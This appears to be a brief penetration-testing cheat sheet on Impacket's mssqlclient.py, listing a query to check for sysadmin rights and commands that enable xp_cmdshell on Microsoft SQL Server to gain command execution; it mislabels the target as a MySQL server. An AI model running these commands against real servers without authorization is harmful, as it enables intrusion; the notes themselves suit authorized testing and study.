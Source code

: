 # Impacket's mssqlclient.py

We can use this tool to interact with mysql server using login credentials and then execute sql quieries.

***

### Check if Current SQL user has sysadmin Privileges

```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

***

### Gain RCE

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

***
